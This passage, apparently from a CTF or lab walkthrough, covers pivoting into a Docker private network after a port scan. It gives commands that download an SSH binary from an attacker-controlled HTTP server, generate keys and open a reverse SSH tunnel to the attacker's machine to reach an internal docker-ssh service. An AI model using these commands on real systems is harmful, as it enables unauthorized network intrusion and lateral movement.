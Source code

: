 ```
8022 open


172.18.0.4
80 open
first 1000 ports scanned
37056 open
50240 open
port scan complete


```

port 3306 is well known to be mysql default port. So I'm assuming that 172.18.0.2 is the database container

Let's see what is behind  port 8022 on ip 172.18.0.3, It's docker SSH, which is used to access consoles of containers..
If we want to access this we need to get inside this private network, preferably with a computer that is not crippled by a container user with almost no tools...

we achieve this using reverse ssh


-----


## Reverse SSH to access docker private network

in order to do this we need to download the deb package of ssh on our attacker computer, and serve it over our http server we set up before to get it into our docker container.

`https://packages.debian.org/jessie/amd64/openssh-client/download #link to download the openssh client`

put it in the folder that is being used by SimpleHttpServer and rename the deb package to openssh.deb

```
curl -o openssh.deb http://<attackerip>:8000/openssh.deb
dpkg -x openssh.deb .; cd usr/bin; chmod +x ssh*; ./ssh-keygen -P '' -f id_rsa -t rsa; cat id_rsa.pub
```

copy the rsa output and put it in your .ssh folder on your attackercomputer in the file authorized_keys, if the file does not exist yet, create it.
`chmod 600 ~/.ssh/authorized_keys`
`service ssh restart`

on the container shell issue the following command to set up a reverse SSH tunnel to the docker-ssh web portal:

` ./ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownHostsFile=/dev/null -v -i id_rsa -R 8022:<ipofdockersshcontainerfoundbyportscan>:8022 -fN root@<yourattackingip> `


-----------------------------------
